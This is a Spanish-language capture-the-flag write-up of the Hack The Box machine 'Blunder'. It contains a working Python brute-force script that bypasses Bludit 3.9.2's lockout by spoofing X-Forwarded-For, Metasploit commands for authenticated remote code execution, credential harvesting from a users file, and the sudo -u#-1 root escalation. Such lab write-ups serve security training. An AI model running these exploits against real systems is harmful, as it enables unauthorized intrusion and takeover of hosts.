

# Blunder

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- cewl
- Bludit 3.9.2 exploit
- sudo exploit

## Nmap Scan

`nmap -sV -sC -Pn 10.10.10.191`

```
Nmap scan report for 10.10.10.191
Host is up (0.075s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

## Enumeración

Utilizamos **gobuster** para encontrar directorios y archivos en la página web que está en el puerto 80.

`gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 20`


Después de revisar los directorios, vemos que en **/admin** se encuentra el nombre de una aplicación llamada **BLUDIT** con versión **3.9.2** que se puede ver en el source code.

`http://10.10.10.191/admin/`


En el archivo **todo.txt** se visualiza un usuario llamado **fergus**.

`http://10.10.10.191/todo.txt`


Investigando un poco sobre la aplicación encontramos 2 exploits uno para [Brute Force](https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb) y otro para [File Upload](https://www.exploit-db.com/exploits/47699).

Primero utilizaremos **cewl** para crear una wordlist con palabras del sitio web para posteriormente aplicar el ataque de fuerza bruta a la aplicación y obtener las credenciales del usuario fergus.

`cewl -d 3 -w wordlist.txt http://10.10.10.191/`


Ejecutamos el exploit.

`python3 bruteforce.py`


##### bruteforce.py
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open("wordlist.txt","r")


for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
    password = password[:-1]
    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Ahora utilizaremos **metasploit** para obtener una shell con las credenciales de fergus.

- `use exploit/linux/http/bludit_upload_images_exec`
- `set BLUDITPASS RolandDeschain`
- `set BLUDITUSER fergus`
- `set RHOSTS 10.10.10.191`
- `run`


## Escalada de Privilegios (User)

Enumerando en **/var/www/** vemos que existe un directorio con otra versión de la aplicación **bludit-3.10.0a**. En el archivo **users.php** encontramos un usuario y un password.

`cat /var/www/bludit-3.10.0a/bl-content/databases/users.php`


Usando **CrackStation** podemos obtener el password en texto plano.


Iniciamos sesión con las nuevas credenciales.

- `shell`
- `python -c "import pty;pty.spawn('/bin/bash')"`
- `su hugo`



## Escalada de Privilegios (Root)

Podemos ver que no es posible ejecutar **/bin/bash** como usuario root.


Investigando un poco sobre **(ALL, !root) /bin/bash** llegamos a este [exploit](https://www.exploit-db.com/exploits/47502). Esto nos permitirá conseguir una shell como root.

`sudo -u#-1 /bin/bash`


## Referencias
https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb \
https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec \
https://crackstation.net/ \
https://www.exploit-db.com/exploits/47502